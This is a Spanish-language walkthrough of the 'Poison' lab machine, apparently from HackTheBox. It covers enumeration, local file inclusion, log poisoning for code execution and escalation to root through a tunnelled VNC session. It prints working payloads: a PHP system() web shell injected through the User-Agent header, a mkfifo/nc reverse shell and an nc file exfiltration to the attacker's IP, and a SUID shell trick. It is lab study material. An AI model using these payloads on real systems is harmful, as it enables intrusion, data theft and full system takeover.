 # 10.10.10.84 - Poison
----------------------

Puertos abiertos 22(ssh), 80(http):

```console
└─$ whatweb http://10.10.10.84
Apache[2.4.29], [PHP/5.6.32]
```

Como tenemos php, podeos hacer tres tipos de fuzzing:
- Por directorios: ```wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.84/FUZZ/" -t 200```
- Por subdominios: ```wfuzz -c --hh=289 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.10.10.10.84.htb" -u http://10.10.10.84/ -t 100```
- Por extensiones php: ```wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.84/FUZZ.php" -t 200```

Solo conseguimos rutas con las extensiones: index.php, browse.php, info.php y el famoso phpinfo.php

-------------
# Part 2: LFI

En la web nos dicen que nos pueden mostrar archivos php locales como "ini.php, info.php, listfiles.php, phpinfo.php".
Es decir nos están mostrando claramente parte de la máquina, es decir un LocalFileInclusion.
Se pasa el archivo por /GET a browse.php con el parámetro file.

Si nos muestran un archivo php sin que se interprete lo estará pasando por el wrapper ```php://filter/convert.base64-encode/resource=shell.php``` y luego haciendole un ```base64 -d```


- **Info.php**: Dice que el sistema es un FreeBSD Poison 11.1-RELEASE.
- **listfiles.php**: array con los archivos anres mencionados mas "pwdbackup.txt"
- **browse.php**: da error por ser el propio archivo.
- **test**: el error a drede nos da la ruta "usr/local/www/apache24/data/"
- **ini.php**: archivo que muestra un array con programas...

### PWDbackup
Al abrir "pwdbackup.txt" nos dicen que es una contraseña codificada en base64 muchas veces.

```console
# ELiminar la primera liena dejando solo el texto en base64, luego:
└─$ cat pwdbackup.txt | tr -d "\n" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d| base64 -d | base64 -d | base64 -d | base64 -d
Charix!2#4%6&8(0
```

### Ini.php
```console
└─$ cat ini.php | grep -oE "    \[.*?\]" | sort -u
```
- [sendmail_path] => Array : /usr/sbin/sendmail -t -i # un programa?
- [extension_dir] => Array : /usr/local/lib/php/20131226

```└─$ curl -s -X GET 'http://10.10.10.84/browse.php?file=../../../../../usr/sbin/sendmail' -O sendamail```
# Conseguimos dicho binario.


## LFI
```
└─$ curl -s -X GET 'http://10.10.10.84/browse.php?file=/etc/passwd' | grep "sh$"
# Usuarios -> charix y root
```
Probamos otras rutas típicas como **/proc/net/tcp** pero no existen

```console
└─$ sshpass -p 'Charix!2#4%6&8(0' ssh charix@10.10.10.84 
charix@Poison:~ %
```
El sistema es muy pequeño, apenas hay programas, asi que en la enumeración encontramos pocas cosas como:

- secret.zip
- /var/mail/charix # no hay nada y en el resto de /var/mail no puedo acceder.
- /home/charix/.mail_aliases
- /home/charix/.mailrc
- /home/charix/.login_conf

Nada interesante. 

---------------
# Log Poisoning

Tenemos un LFI, que nos permite ver archivos, pero se puede convertir en un RCE por una técnica llamada Log 
poisoning. 

- /var/log/auth.log -> ssh 
- /var/log/mail -> smtp  
- /var/log/apache2/acces.log -> apache  
- /var/log/httpd-access.log -> apache tambien

```console
└─$ curl -s -X GET -H $'User-Agent: <?php system($_GET[\'cmd\']); ?>' 'http://10.10.10.84/browse.php?file=/var/log/httpd-access.log'
└─$ curl -s -X GET 'http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami'
10.10.14.16 - - [15/Dec/2022:19:51:05 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1067 "-" "www"
```
Si ponemos en el navegador: 
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.16 443 >/tmp/f```


charix@Poison:~ % nc 10.10.14.16 443 < secret.zip
└─$ sudo nc -nlvp 443 > secret.zip
└─$ 7z x secret.zip # password Charix!2#4%6&8(0 
└─$ cat secret  #  ��[|Ֆz! ??

-----------------------------------


En este tipo de sistemas netstat funciona de manera diferente (cuando lo corrimos con mi script ```netstat -nat```) nos mostraban las opciones.

```console
charix@Poison:~ % netstat -na -p tcp
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Si buscamos estos puertos en google relativos a freebsd nos dice que funciona el "VNC client":

```console
charix@Poison:/tmp % ps aux | grep "vnc"
root   529   0.0  0.9  23620  8872 v0- I    18:54    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

El asunto esque corre por la máquina local, así que hay que traerse esos puertos.

```console
└─$ sshpass -p 'Charix!2#4%6&8(0' ssh charix@10.10.10.84 -D 666
└─$  sudo nano /etc/proxychains4.conf
socks4  127.0.0.1 666
```
Una vez hecho el tunel, se accedería por él a dicho puerto (que ahora parece del localhost)
Como contraseña le adjuntamos el archivo binario raro de antes "secret"
```
└─$ proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
Lo que nos abre una ventana de acceso al sistema como root. Como no podemos copiar cosas ni nada, pero somos root
lo ideal es hacer SUID a la sh ```chmod  u+s /bin/sh``` y en el sistema al que entramos por ssh  
```sh -p``` y ya tenemos una consola como root.
